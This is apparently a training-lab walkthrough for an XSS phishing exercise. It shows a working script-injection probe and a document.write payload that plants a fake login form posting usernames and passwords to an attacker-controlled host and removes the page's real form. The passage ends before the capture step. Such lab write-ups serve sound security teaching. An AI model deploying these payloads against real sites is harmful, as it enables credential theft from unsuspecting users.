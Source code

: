 ## Question 1

### "Try to find a working XSS payload for the Image URL form, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/login.php' and obtain the flag."

After spawning the target machine, students first need to navigate to the `/phishing` directory, `http://STMIP/phishing/`:

![[HTB Solutions/CPTS/z. images/38a1dfeee0df0097391f72ac870a4b67_MD5.jpg]]

Students then need to try various XSS payloads to find a working one, and they will find that the following payload works:

Code: javascript

```javascript
'><script>alert(1)</script>
```

![[HTB Solutions/CPTS/z. images/3806a1b71a6bd31c7437ce952009af2f_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/e640e3d105b3bc8f335c40d64650acc5_MD5.jpg]]

Subsequently, students now will proceed to the phishing attack, in which they will inject HTML that will display a login form, by using `document.write` on the following HTML:

Code: html

```html
<h3>Please login to continue</h3>
<form action=http://PWNIP:PWNPO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Similar to the module's section, students need to remove the URL field using the `document.getElementById().remove()` function on the id `urlform`, and thus, the final JavaScript payload will be:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
